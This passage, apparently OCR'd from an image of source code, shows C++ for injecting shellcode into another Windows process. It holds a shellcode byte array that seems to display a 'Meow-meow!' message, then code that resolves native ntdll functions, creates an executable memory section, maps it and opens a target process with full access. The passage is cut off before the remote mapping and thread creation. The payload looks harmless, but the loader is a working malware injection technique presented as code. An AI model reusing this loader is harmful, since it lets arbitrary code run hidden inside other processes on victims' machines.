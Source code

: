 ```cpp
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  SIZE_T s = 4096;
  LARGE_INTEGER sectionS = { s };
  HANDLE sh = NULL; // section handle
  PVOID lb = NULL; // local buffer
  PVOID rb = NULL; // remote buffer
  HANDLE th = NULL; // thread handle
  DWORD pid; // process ID

  pid = findMyProc(argv[1]);

  OBJECT_ATTRIBUTES oa;
  CLIENT_ID cid;
  InitializeObjectAttributes(&oa, NULL, 0, NULL, NULL);
  cid.UniqueProcess = (PVOID) pid;
  cid.UniqueThread = 0;

  // loading ntdll.dll
  HANDLE ntdll = GetModuleHandleA("ntdll");

  pNtOpenProcess myNtOpenProcess = 
  (pNtOpenProcess)GetProcAddress(
    ntdll, "NtOpenProcess");
  pNtCreateSection myNtCreateSection = 
  (pNtCreateSection)(GetProcAddress(
    ntdll, "NtCreateSection"));
  pNtMapViewOfSection myNtMapViewOfSection = 
  (pNtMapViewOfSection)(GetProcAddress(
    ntdll, "NtMapViewOfSection"));
  pRtlCreateUserThread myRtlCreateUserThread  = 
  (pRtlCreateUserThread)(GetProcAddress(
    ntdll, "RtlCreateUserThread"));
  pZwUnmapViewOfSection myZwUnmapViewOfSection = 
  (pZwUnmapViewOfSection)(GetProcAddress(
    ntdll, "ZwUnmapViewOfSection"));

  // create a memory section
  myNtCreateSection(&sh, 
  SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, 
  NULL, (PLARGE_INTEGER)&sectionS, 
  PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);

  // bind the object in the memory 
  // of our process for reading and writing
  myNtMapViewOfSection(sh, GetCurrentProcess(), 
  &lb, NULL, NULL, NULL, 
  &s, 2, NULL, PAGE_READWRITE);

  // open remote proces via NT API
  HANDLE ph = NULL;
  myNtOpenProcess(&ph, PROCESS_ALL_ACCESS, &oa, &cid);

  if (!ph) {
    printf("failed to open process :(\n");
    return -2;
```